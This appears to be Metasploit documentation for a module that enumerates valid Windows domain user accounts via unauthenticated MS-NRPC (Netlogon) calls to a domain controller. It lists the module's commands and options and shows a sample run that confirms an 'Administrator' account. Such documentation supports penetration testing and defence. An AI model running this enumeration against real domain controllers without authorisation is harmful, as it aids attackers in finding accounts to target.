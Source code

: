 ## Vulnerable Application

A new method for gathering domain users. The method leverages auth-level = 1 (No authentication) against the
MS-NRPC (Netlogon) interface on domain controllers. All that's required is the domain controller's IP address,
and the entire process can be completed without providing any credentials.

## Verification Steps

1. Do: `use auxiliary/gather/nrpc_enumusers`
2. Do: `set RHOSTS <targer IP addresses>`
3. Do: `set USER_FILE <path to your users list>`
4. Do: `run`


## Target

To use nrpc_enumusers, make sure you are able to connect to the Domain Controller.
It has been tested with Windows servers 2012, 2016, 2019 and 2022

## Options

### USER_FILE

Path to the file containing the list of usernames to enumerate. Each username should be on a separate line.
Example: `set USER_FILE /path/to/usernames.txt`

### RPORT

Optional. The port for the MS-NRPC interface. If not specified, the module will attempt to determine the endpoint.
If you know the port used by the MS-NRPC interface, you can specify it. Otherwise, the module will find it automatically.

## Scenarios

The following demonstrates basic usage, using a custom wordlist,
targeting a single Domain Controller to identify valid domain user accounts.

Create a new `./users.txt` file, then run the module:

```
msf auxiliary(gather/nrpc_enumusers) > set RHOSTS 192.168.177.177
RHOSTS => 192.168.177.177
msf auxiliary(gather/nrpc_enumusers) > set USER_FILE users.txt 
USER_FILE => users.txt
msf auxiliary(gather/nrpc_enumusers) > run

[*] 192.168.177.177: - Connecting to the endpoint mapper service...
[*] 192.168.177.177: - Binding to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.177.177[49664]...
[-] 192.168.177.177: - Tiffany.Molina does not exist
[-] 192.168.177.177: - SMITH does not exist
[-] 192.168.177.177: - JOHNSON does not exist
[-] 192.168.177.177: - WILLIAMS does not exist
[-] 192.168.177.177: - Administratorsvc_ldap does not exist
[-] 192.168.177.177: - svc_ldap does not exist
[-] 192.168.177.177: - ksimpson does not exist
[+] 192.168.177.177: - Administrator exists
[-] 192.168.177.177: - James does not exist
[-] 192.168.177.177: - nikk37 does not exist
[-] 192.168.177.177: - svc-printer does not exist
[-] 192.168.177.177: - SABatchJobs does not exist
[-] 192.168.177.177: - e.black does not exist
[-] 192.168.177.177: - Kaorz does not exist
[*] 192.168.177.177: - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(gather/nrpc_enumusers) >
```
